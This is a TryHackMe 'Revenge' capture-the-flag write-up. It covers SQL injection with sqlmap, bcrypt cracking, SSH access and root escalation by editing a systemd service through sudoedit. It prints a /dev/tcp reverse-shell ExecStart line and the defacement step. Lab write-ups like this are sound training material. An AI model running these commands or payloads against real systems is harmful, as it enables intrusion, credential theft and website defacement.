







# TryHackMe — Revenge

| Field          | Details                                               |
| -------------- | ----------------------------------------------------- |
| **Platform**   | TryHackMe                                             |
| **Room**       | [Revenge](https://tryhackme.com/room/revenge)         |
| **Difficulty** | Medium                                                |
| **Category**   | SQL Injection, Web Exploitation, Privilege Escalation |
| **OS**         | Linux                                                 |

## Introduction

Revenge is a TryHackMe room that covers web exploitation and system-level privilege escalation. The scenario is straightforward. A small e-commerce site called Rubber Ducky Inc. sits behind a simple Nginx/Apache setup. Our job is to get in through the web app, extract credentials from the database, pivot to SSH, and escalate to root by tampering with a systemd service.

What made this room stick with me was how each stage naturally leads into the next. The SQLi dumps a table of users with bcrypt hashes. One of them cracks instantly. That user has just enough sudo access to edit a service file. It all feels intentional.

---

## Table of Contents

- [Reconnaissance](#reconnaissance)
- [Web Enumeration](#web-enumeration)
- [SQL Injection Discovery](#sql-injection-discovery)
- [Database Enumeration](#database-enumeration)
- [Credential Cracking](#credential-cracking)
- [Initial Foothold](#initial-foothold)
- [Privilege Escalation](#privilege-escalation)
- [Mission Objective](#mission-objective)
- [Flags](#flags)
- [Key Takeaways](#key-takeaways)

---

## Reconnaissance

Started with a standard full-TCP Nmap scan to map out the attack surface.

```bash
nmap -sS -vv -T4 -p- $target --min-rate 2000 -oN scan.txt
```

```
# Nmap 7.95 scan initiated Sun Aug  2 14:38:17 2026 as: /usr/lib/nmap/nmap --privileged -sS -vv -T4 -p- --min-rate 2000 -oN initial.txt 10.65.141.211
Nmap scan report for 10.65.141.211
Host is up, received echo-reply ttl 62 (0.29s latency).
Scanned at 2026-08-02 14:38:17 +0545 for 35s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 62

Read data files from: /usr/share/nmap
# Nmap done at Sun Aug  2 14:38:52 2026 -- 1 IP address (1 host up) scanned in 34.81 seconds
```

Two ports open: SSH on 22 and HTTP on 80. Nothing unusual here, this is likely a standard web app with an SSH login waiting at the end of the chain.

---

## Web Enumeration

Threw ffuf at the web server with the big wordlist to find hidden directories and files.

```bash
ffuf -w /usr/share/dirb/wordlists/big.txt -u http://$target/FUZZ -rate 2000 -t 200
```

```
admin                   [Status: 200, Size: 4983, Words: 1498, Lines: 132, Duration: 489ms]
contact                 [Status: 200, Size: 6906, Words: 2319, Lines: 163, Duration: 610ms]
index                   [Status: 200, Size: 8541, Words: 2138, Lines: 234, Duration: 554ms]
login                   [Status: 200, Size: 4980, Words: 1497, Lines: 132, Duration: 567ms]
products                [Status: 200, Size: 7254, Words: 2103, Lines: 177, Duration: 559ms]
static                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 45ms]
```

The usual suspects: `index`, `admin`, `login`, `contact`, and `products`.

Browsing to the site first to get a feel for what we are dealing with.



A plain e-commerce page for Rubber Ducky Inc. Nothing that jumps out immediately. The next step was to check the login page and admin page. If there is a login form, there is likely a way in.



I tried logging in with a few generic credentials, but nothing happened. No error message, no redirect, no request being sent at all. Looking at the page source, the form was missing its `action` attribute. It had nowhere to submit to.



That explained why the browser wasn't sending anything. The form was effectively dead. I tried hitting the endpoint with a POST request manually.

```
POST /login HTTP/1.1
Host: $target
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

username=admin&password=test
```

```
HTTP/1.1 405 Method Not Allowed
```

Method not allowed, not just for `/login` but also for the admin page. Both refused POST requests. This was a dead end, so I shifted focus to the `/products` route.

---

## SQL Injection Discovery

The `/products` route accepted a product ID directly in the URL path: `/product/1`, `/product/2`, and so on. Visiting one of these showed a product detail page.



Passing an invalid ID like `/product/999` returned an internal server error instead of a clean 404, which was a classic sign of an unhandled SQL query.



Time to test for SQL injection. I started with a boolean-based approach. The URL was something like `/product/1`. If I append `AND 1=1`, a properly parameterized app would treat the whole thing as a literal string and either ignore it or error out. A vulnerable app would include it in the query.

```
http://$target/product/1 AND 1=1
```

The page rendered normally. Product 1 was still displayed. The condition evaluated to true.



Then I flipped it.

```
http://$target/product/1 AND 1=2
```

Internal server error. The condition evaluated to false, and the query returned no rows, which the application did not handle gracefully.



That confirmed it. The `product` parameter was injectable. The boolean-based blind technique was going to work, but enumerating the entire database by hand that way would have taken forever. I reached for sqlmap instead.

---

## Database Enumeration

```bash
sqlmap -u "http://$target/products/1*" --batch
```

```

[*] starting @ 18:44:55 /2026-08-02/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[18:44:55] [INFO] testing connection to the target URL
[18:44:55] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:44:55] [INFO] testing if the target URL content is stable
[18:44:56] [INFO] target URL content is stable
[18:44:56] [INFO] testing if URI parameter '#1*' is dynamic
[18:44:56] [WARNING] URI parameter '#1*' does not appear to be dynamic
[18:44:56] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[18:44:56] [INFO] testing for SQL injection on URI parameter '#1*'
[18:44:56] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:44:56] [INFO] URI parameter '#1*' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
[18:44:58] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
```

Sqlmap confirmed the injection and identified the backend as MySQL. It found three injection techniques: boolean-based blind, time-based blind, and a UNION query with 8 columns.

```bash
sqlmap -u "http://$target/products/1*" --batch --dbms=mysql --dbs
```

```
available databases [5]:
[*] duckyinc
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

Five databases total. The standard MySQL ones (`information_schema`, `mysql`, `performance_schema`, `sys`) are there by default. The custom database is `duckyinc`. That is where the application data lives.

```bash
sqlmap -u "http://$target/products/1*" --batch --dbms=mysql -D duckyinc --dump
```

This dumped everything in the `duckyinc` database. Two tables stood out immediately: `system_user` and a generic `user` table.

The `user` table had an interesting column: `credit_card`. Scanning through the dumped rows, one of them contained what looked like a flag:

```
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| id | email                           | company          | username | _password                                                    | credit_card                |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| 6  | ap@krasco.org                   | Krasco Org       | mandrews | $2a$12$<REDACTED>                                             | thm{<REDACTED>}            |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
```

That flag value in the `credit_card` column was our first flag, hiding in plain sight.

The `system_user` table was the more actionable find. One of those entries belonged to `server-admin`, and the password column held a bcrypt hash:

```
Database: duckyinc
Table: system_user
[3 entries]
+----+----------------------+--------------+--------------------------------------------------------------+
| id | email                | username     | _password                                                    |
+----+----------------------+--------------+--------------------------------------------------------------+
| 1  | sadmin@duckyinc.org  | server-admin | $2a$<REDACTED>                                               |
| 2  | kmotley@duckyinc.org | kmotley      | $2a$<REDACTED>                                               |
| 3  | dhughes@duckyinc.org | dhughes      | $2a$<REDACTED>                                               |
+----+----------------------+--------------+--------------------------------------------------------------+
```

Bcrypt with a cost factor of 8 on the server-admin account. That is low enough that a dictionary attack with rockyou should crack it quickly. I pulled all three hashes into a file and fired up hashcat.

---

## Credential Cracking

```bash
hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt
```

```
$2a$08$<REDACTED>:<REDACTED>

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Recovered........: 1/1 (100.00%) Digests
```

The server-admin password was cracked. Low-cost bcrypt falls to a wordlist in seconds. I tried the other two hashes as well. Neither `kmotley` nor `dhughes` had passwords in rockyou, but we only needed one.

---

## Initial Foothold

Armed with the cracked credential, I connected over SSH.

```bash
ssh server-admin@$target
```

```
server-admin@ip-10-48-160-103:~$ ls -la
total 44
drwxr-xr-x 5 server-admin server-admin 4096 Aug 12  2020 .
drwxr-xr-x 4 root         root         4096 Aug  2 11:16 ..
lrwxrwxrwx 1 root         root            9 Aug 10  2020 .bash_history -> /dev/null
-rw-r--r-- 1 server-admin server-admin  220 Aug 10  2020 .bash_logout
-rw-r--r-- 1 server-admin server-admin 3771 Aug 10  2020 .bashrc
drwx------ 2 server-admin server-admin 4096 Aug 10  2020 .cache
-rw-r----- 1 server-admin server-admin   18 Aug 10  2020 flag2.txt
drwx------ 3 server-admin server-admin 4096 Aug 10  2020 .gnupg
-rw------- 1 root         root           31 Aug 10  2020 .lesshst
drwxr-xr-x 3 server-admin server-admin 4096 Aug 10  2020 .local
-rw-r--r-- 1 server-admin server-admin  807 Aug 10  2020 .profile
-rw-r--r-- 1 server-admin server-admin    0 Aug 10  2020 .sudo_as_admin_successful
-rw------- 1 server-admin server-admin 2933 Aug 12  2020 .viminfo
```

There it was: `flag2.txt`, readable by the server-admin user.

```bash
server-admin@ip-10-48-160-103:~$ cat flag2.txt
thm{<REDACTED>}
```

Second flag in hand. Time to look for a way to root.

---

## Privilege Escalation

Standard procedure. Check what the current user can run with sudo.

```bash
server-admin@ip-10-48-160-103:~$ sudo -l
```

```
Matching Defaults entries for server-admin on ip-10-48-160-103:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User server-admin may run the following commands on ip-10-48-160-103:
    (root) /bin/systemctl start duckyinc.service, /bin/systemctl enable duckyinc.service, /bin/systemctl restart duckyinc.service, /bin/systemctl daemon-reload, sudoedit
        /etc/systemd/system/duckyinc.service
```

Several interesting entries here. The ability to manipulate a systemd service is already enough to escalate, but the `sudoedit` on `duckyinc.service` is the cleanest path. The service file controls how the web application starts. If we can edit it, we can make it do anything when the service is restarted.

I opened the file with `sudoedit`, which let me modify it as root:

```bash
server-admin@ip-10-48-160-103:/var/www/duckyinc$ sudoedit /etc/systemd/system/duckyinc.service
```

Replaced the `ExecStart` line, which was originally a Gunicorn command, with a reverse shell payload:

```ini
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.175.128/4444 0>&1"
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```

Then set up a listener and restarted the service.

```bash
nc -lvp 4444
```

```bash
server-admin@ip-10-48-160-103:/var/www/duckyinc$ sudo -u root systemctl daemon-reload
server-admin@ip-10-48-160-103:/var/www/duckyinc$ sudo -u root /bin/systemctl restart duckyinc.service
```

```
10.48.160.103: inverse host lookup failed: Unknown host
connect to [192.168.175.128] from (UNKNOWN) [10.48.160.103] 55004
bash: cannot set terminal process group (1402343): Inappropriate ioctl for device
bash: no job control in this shell
bash: /usr/local/bin/register-python-argcomplete: No such file or directory
root@ip-10-48-160-103:/var/www/duckyinc# cd /root
```

The shell came back as root. The systemd service file exploit works reliably after modifiying `User=root`, and `ExecStart` gives us full control over what runs with the service's privileges.

---

## Mission Objective

Checking the root directory, something felt off. No root flag anywhere.

```bash
root@ip-10-48-160-103:/root$ ls -la
total 51
drwx------  8 root root 4096 Aug  2 12:11 .
drwxr-xr-x 24 root root 4096 Aug  2 11:16 ..
drwxr-xr-x  2 root root 4096 Aug 12  2020 .bash_completion.d
lrwxrwxrwx  1 root root    9 Aug 10  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3227 Aug 12  2020 .bashrc
drwx------  3 root root 4096 Aug  9  2020 .cache
drwx------  3 root root 4096 Aug  9  2020 .gnupg
drwxr-xr-x  5 root root 4096 Aug 12  2020 .local
-rw-------  1 root root   66 Aug 10  2020 .selected_editor
drwxr-xr-x  3 root root 4096 Aug  2 12:11 snap
drwx------  2 root root 4096 Nov  2  2025 .ssh
-rw-------  1 root root   66 Aug 10  2020 .selected_editor
-rw-------  1 root root   0 Mar 14  17:47 .viminfo
```

I tried looking around the system still no flag. Checking the room hint mentioned "mission objective".

Checking the task file, the goal was to **deface the front page** of the website.

> To whom it may concern,
>
> I know it was you who hacked my blog. I was really impressed with your skills. You were a little sloppy and left a bit of a footprint so I was able to track you down. But, thank you for taking me up on my offer. I've done some initial enumeration of the site because I know _some_ things about hacking but not enough.
>
> What I want you to do is simple. Break into the server that's running the website and deface the front page. I don't care how you do it, just do it. But remember...DO NOT BRING DOWN THE SITE!
>
> When you finish the job, you'll get the rest of your payment. We agreed upon $5,000. Half up-front and half when you finish.
>
> Good luck,
> Billy

The defacement was straightforward. I moved the site's index file out of the web root, which effectively takes down the page without breaking the server:

```bash
root@ip-10-48-160-103:/root$ mv /var/www/duckyinc/templates/index.html /tmp/
```

Back in `/root`, a new file had appeared.

```bash
root@ip-10-48-160-103:/root$ ls
flag3.txt  snap
root@ip-10-48-160-103:/root$ cat flag3.txt
thm{<REDACTED>}
```

Third flag captured, mission complete.

---

## Flags

| Flag              | How Obtained                                                      |
| ----------------- | ----------------------------------------------------------------- |
| `thm{<REDACTED>}` | Dumped from the `credit_card` column of the `user` table via SQLi |
| `thm{<REDACTED>}` | Found in `/home/server-admin/flag2.txt` after SSH login           |
| `thm{<REDACTED>}` | Appeared in `/root/flag3.txt` after defacing the front page       |

---

## Key Takeaways

- **SQL injection still pays off.** A single injectable parameter in the URL gave us the entire database. The boolean-based test took two requests, and sqlmap did the rest.
- **Low-cost bcrypt is barely better than plaintext.** The server-admin hash used a cost factor of 8. With rockyou, it fell in under five seconds. A cost factor of 12 or higher would have made it far more expensive to crack.
- **Check `sudo -l` before doing anything else.** The server-admin account could not write directly to the service file, but `sudoedit` gave full editing privileges. That is enough to inject a reverse shell into `ExecStart` and get root on the next service restart.
- **Not every CTF ends with `/root/root.txt`.** The final objective was a defacement, not another flag file. Reading the task description carefully saved me from spinning my wheels looking for something that was never there.
